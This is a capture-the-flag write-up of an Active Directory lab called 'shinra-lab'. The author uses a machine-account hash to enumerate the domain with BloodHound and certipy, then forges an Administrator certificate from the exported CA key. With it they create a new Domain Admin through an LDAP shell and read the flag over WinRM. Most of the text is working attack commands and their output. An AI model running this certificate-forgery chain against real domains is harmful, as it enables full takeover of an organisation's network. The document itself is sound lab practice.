



I do not need to perform another scan of the NMAP TCP ports as I know this is the last bite and instead I will perform a AD scan and aprse the data in Bloodhound.

```bash
─$ bloodhound-ce-python -ns 172.16.13.105 -d shinra-lab.vl -u 'SQL02$' --hashes :a37ef2f7af392a2ca6583518ede5a8b1 -c All --zip --dns-tcp
INFO: BloodHound.py for BloodHound Community Edition
INFO: Found AD domain: shinra-lab.vl
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc.shinra-lab.vl
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: dc.shinra-lab.vl
INFO: Found 29 users
INFO: Found 54 groups
INFO: Found 2 gpos
INFO: Found 3 ous
INFO: Found 20 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: sql02.shinra-lab.vl
INFO: Querying computer: dc.shinra-lab.vl
INFO: Done in 00M 06S
INFO: Compressing output into 20260327100242_bloodhound.zip
                                                                 
```

The SQL02 computer object is part of the Certificate Publishers and this means it must has to have something to do with CA?



And the CA is installed on the SQL02 server:

```bash
└─$ certipy-ad find -u 'SQL02$@shinra-lab.vl' -hashes :a37ef2f7af392a2ca6583518ede5a8b1 -dc-ip 172.16.13.105  -stdout  
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Finding issuance policies
[*] Found 13 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'shinra-lab-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Successfully retrieved CA configuration for 'shinra-lab-CA'
[*] Checking web enrollment for CA 'shinra-lab-CA' @ 'sql02.shinra-lab.vl'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : shinra-lab-CA
    DNS Name                            : sql02.shinra-lab.vl
    Certificate Subject                 : CN=shinra-lab-CA, DC=shinra-lab, DC=vl
    Certificate Serial Number           : 331F7310A7D807A240580E04215628A1
    Certificate Validity Start          : 2022-12-21 17:17:20+00:00
    Certificate Validity End            : 2121-12-21 17:27:19+00:00
    Web Enrollment
      HTTP
        Enabled                         : True
      HTTPS
        Enabled                         : True
        Channel Binding (EPA)           : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : SHINRA-LAB.VL\Administrators
      Access Rights
        ManageCa                        : SHINRA-LAB.VL\Administrators
                                          SHINRA-LAB.VL\Domain Admins
                                          SHINRA-LAB.VL\Enterprise Admins
        ManageCertificates              : SHINRA-LAB.VL\Administrators
                                          SHINRA-LAB.VL\Domain Admins
                                          SHINRA-LAB.VL\Enterprise Admins
        Enroll                          : SHINRA-LAB.VL\Authenticated Users
    [!] Vulnerabilities
      ESC8                              : Web Enrollment is enabled over HTTP and HTTPS, and Channel Binding is disabled.

```

Now there is several possible ways:

- ESC8 since the Web Enrollment is active but since I have several Ligolo tunnels and I really don't want to fiddle with proxys and the NTLM relays.
- The Cert Publishers can be abused described [here](https://decoder.cloud/2023/11/20/a-deep-dive-in-cert-publishers-group/) where basically the idea is to change the CA private certificate and then forge a malicious one but since I am already admin I might just be able to export the certificate and use that.

Now since I can export the private keys as well which means it is game over!



We can see this is the same cert:  


Now I can forge the new fake certificate with the CA certificate(using it's private key)

```bash
                                                                                                                                                                                                                                                                                                                               
┌──(user㉿kali-almi)-[~/Downloads/Shinra]
└─$ certipy-ad forge -ca-pfx shinra-lab-ca.pfx -ca-password 'Coglione1!' -upn 'Administrator@shinra-lab.vl' -subject 'CN=ADMINISTRATOR,CN=USERS,DC=SHINRA-LAB,DC=VL'
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Saving forged certificate and private key to 'administrator_forged.pfx'
[*] Wrote forged certificate and private key to 'administrator_forged.pfx'

```

Here I was trying to obtain the TGT for the Admin but it failed:

```bash
└─$ certipy-ad auth -pfx administrator_forged.pfx -dc-ip 172.16.13.105                     
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'Administrator@shinra-lab.vl'
[*] Using principal: 'administrator@shinra-lab.vl'
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERROR_CLIENT_NOT_TRUSTED(Reserved for PKINIT)
[-] Use -debug to print a stacktrace
[-] See the wiki for more information

```

Now I was able to bypass to ldap and add a new user instead:

```bash
└─$ certipy-ad auth -pfx administrator_forged.pfx -dc-ip 172.16.13.105 -ldap-shell
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'Administrator@shinra-lab.vl'
[*] Connecting to 'ldaps://172.16.13.105:636'
[*] Authenticated to '172.16.13.105' as: 'u:SHINRA-LAB\\Administrator'
Type help for list of commands

# help

 add_computer computer [password] [nospns] - Adds a new computer to the domain with the specified password. If nospns is specified, computer will be created with only a single necessary HOST SPN. Requires LDAPS.
 rename_computer current_name new_name - Sets the SAMAccountName attribute on a computer object to a new value.
 add_user new_user [parent] - Creates a new user.
 add_user_to_group user group - Adds a user to a group.
 change_password user [password] - Attempt to change a given user's password. Requires LDAPS.
 clear_rbcd target - Clear the resource based constrained delegation configuration information.
 clear_shadow_creds target - Clear shadow credentials on the target (sAMAccountName).
 disable_account user - Disable the user's account.
 enable_account user - Enable the user's account.
 dump - Dumps the domain.
 search query [attributes,] - Search users and groups by name, distinguishedName and sAMAccountName.
 get_user_groups user - Retrieves all groups this user is a member of.
 get_group_users group - Retrieves all members of a group.
 get_laps_password computer - Retrieves the LAPS passwords associated with a given computer (sAMAccountName).
 grant_control [search_base] target grantee - Grant full control on a given target object (sAMAccountName or search filter, optional search base) to the grantee (sAMAccountName).
 set_dontreqpreauth user true/false - Set the don't require pre-authentication flag to true or false.
 set_rbcd target grantee - Grant the grantee (sAMAccountName) the ability to perform RBCD to the target (sAMAccountName).
set_shadow_creds target - Set shadow credentials on the target object (sAMAccountName).
 start_tls - Send a StartTLS command to upgrade from LDAP to LDAPS. Use this to bypass channel binding for operations necessitating an encrypted channel.
 write_gpo_dacl user gpoSID - Write a full control ACE to the gpo for the given user. The gpoSID must be entered surrounding by {}.
 whoami - get connected user
 dirsync - Dirsync requested attributes
 exit - Terminates this session.

# add_user yovecio
Attempting to create user in: %s CN=Users,DC=shinra-lab,DC=vl
Adding new user with username: yovecio and password: G=)q27]5G4@]hde result: OK

# add_user_to_group yovecio "Domain Admins"
Adding user: yovecio to group Domain Admins result: OK

# 

```

And this is the GAMEOVER:

```bash
└─$ evil-winrm-py -i 172.16.13.105 -u yovecio -p 'G=)q27]5G4@]hde'
          _ _            _                             
  _____ _(_| |_____ __ _(_)_ _  _ _ _ __ ___ _ __ _  _ 
 / -_\ V | | |___\ V  V | | ' \| '_| '  |___| '_ | || |
 \___|\_/|_|_|    \_/\_/|_|_||_|_| |_|_|_|  | .__/\_, |
                                            |_|   |__/  v1.6.0

[*] Connecting to '172.16.13.105:5985' as 'yovecio'
evil-winrm-py PS C:\Users\yovecio\Documents> cd ..
evil-winrm-py PS C:\Users\yovecio> cd ..
evil-winrm-py PS C:\Users> cd Administrator
evil-winrm-py PS C:\Users\Administrator> cd Desktop
evil-winrm-py PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name                                                                   
----                -------------         ------ ----                                                                   
-a----         6/2/2025   9:18 AM             40 master.txt                                                             


evil-winrm-py PS C:\Users\Administrator\Desktop> cat master.txt
SHINRA{f2d4758ef58663c454248bf0a405c95e}
evil-winrm-py PS C:\Users\Administrator\Desktop>

```